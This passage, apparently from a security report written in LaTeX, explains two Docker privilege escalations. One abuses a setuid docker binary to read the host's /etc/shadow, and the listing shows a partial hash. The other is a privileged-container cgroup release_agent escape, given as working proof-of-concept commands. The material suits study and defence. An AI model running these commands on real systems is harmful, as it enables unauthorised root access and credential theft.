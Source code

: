 \hfill

If a system is misconfigured by having the \lstinline{setuid} bit set for the \lstinline{docker} binary, a user will be able to execute Docker as \lstinline{root} (the owner of \lstinline{docker}). Just like before, we can easily recreate this attack.

\begin{lstlisting}[caption={Docker \lstinline{setuid} exploit example},captionpos=b]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm --volume=/:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

We now see that we are not a part of the \lstinline{docker} group, but we can still run \lstinline{docker} because the \lstinline{setuid} bit is set.

\subsection{The -{}-privileged flag}

Docker has a special privileged mode\cite{Docker-in-Docker-blog}. This mode is enabled if a container is created with the \lstinline{--privileged} flag and it enables access to all host devices and kernel capabilities. This is a very powerful mode and enables some very useful features (e.g\ building Docker images inside a Docker container). But it is also very dangerous as those kernel features allow an attacker inside the container to escape and access the host.

\hfill

A simple example of this, is using a feature in \lstinline{cgroups}\cite{CGroup-Docs}. If a \lstinline{cgroup} does not contain any processes anymore, it is released. It is possible to specify a command that should be run in case that happens (called a \lstinline{release_agent}). It is possible to define such a \lstinline{release_agent} in a privileged docker. If the \lstinline{cgroup} is released, the command is run on the host\cite{TrailOfBits-Docker-Escape}.

\hfill

We can look at a proof of concept of this attack developed by security researcher Felix Wilhelm\cite{Felix-Wilhem-Tweet}.
\begin{lstlisting}[caption={Docker escape using \lstinline{cgroups} (privileged)},captionpos=b]
(host)$ docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
(cont)# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
\end{lstlisting}

